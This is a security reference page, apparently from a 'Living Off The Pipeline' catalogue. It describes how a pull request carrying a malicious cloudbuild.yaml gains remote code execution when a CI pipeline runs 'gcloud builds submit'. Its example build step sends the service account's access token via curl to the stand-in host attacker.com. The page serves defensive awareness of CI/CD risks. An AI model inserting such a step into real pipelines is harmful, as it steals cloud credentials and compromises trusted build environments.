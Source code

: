 ```yaml
---
layout: tool
title: gcloud
tags: [cli, config-file, rce]
references:
- https://cloud.google.com/build/docs/configuring-builds/create-basic-configuration
files: [cloudbuild.yaml]
---
```


## Living Off The Pipeline - gcloud (Google Cloud CLI)

The `gcloud` command-line interface can be abused as a "Living Off The Pipeline" (LOTP) tool. While the CLI's own configuration is secure, specific sub-commands like `gcloud builds submit` operate on repository-local configuration files that can be weaponized by an attacker.

### First-Order LOTP Tool

`gcloud` is a **First-Order LOTP Tool**. It provides Remote Code Execution (RCE) by processing a malicious `cloudbuild.yaml` file.

#### Malicious Primitive: Remote Code Execution (RCE)

The `gcloud builds submit` command takes a configuration file (commonly `cloudbuild.yaml`) that defines the steps for a remote build on Google Cloud Build. This file can contain a `steps` section, where each step can run arbitrary shell commands.

An attacker can add a malicious step to the `cloudbuild.yaml` in their pull request. When a CI/CD pipeline executes `gcloud builds submit`, it sends this malicious configuration to the Google Cloud Build service, which then executes the attacker's payload on a remote build worker. While the RCE is not on the initial CI runner, it is still a full RCE in a trusted cloud environment.

### Real-World Attack Scenario

1.  **Attacker's PR:** An attacker submits a pull request with a malicious `cloudbuild.yaml` file.
    ```yaml
    # cloudbuild.yaml
    steps:
      # This step will run on a Google Cloud Build worker and exfiltrate its credentials.
      - name: 'gcr.io/cloud-builders/gcloud'
        entrypoint: 'sh'
        args:
          - '-c'
          - |
            gcloud auth print-access-token | curl -X POST -d @- http://attacker.com/
    ```

2.  **Vulnerable Workflow:** The pipeline contains a standard command to submit the project to Google Cloud Build.
    ```yaml
    - name: Submit build to GCP
      run: gcloud builds submit --config cloudbuild.yaml .
    ```

3.  **Execution:**
    *   The `gcloud builds submit` command is executed.
    *   It uploads the repository contents, including the malicious `cloudbuild.yaml`, to Google Cloud.
    *   The Google Cloud Build service starts a new build, reads the attacker's configuration, and executes the malicious step.
    *   The attacker's `curl` command runs on the Cloud Build worker, stealing the service account's access token.

This attack is dangerous because the CI/CD workflow file contains a legitimate and common command. The malicious payload is hidden in a project configuration file that defines a remote, trusted build process.
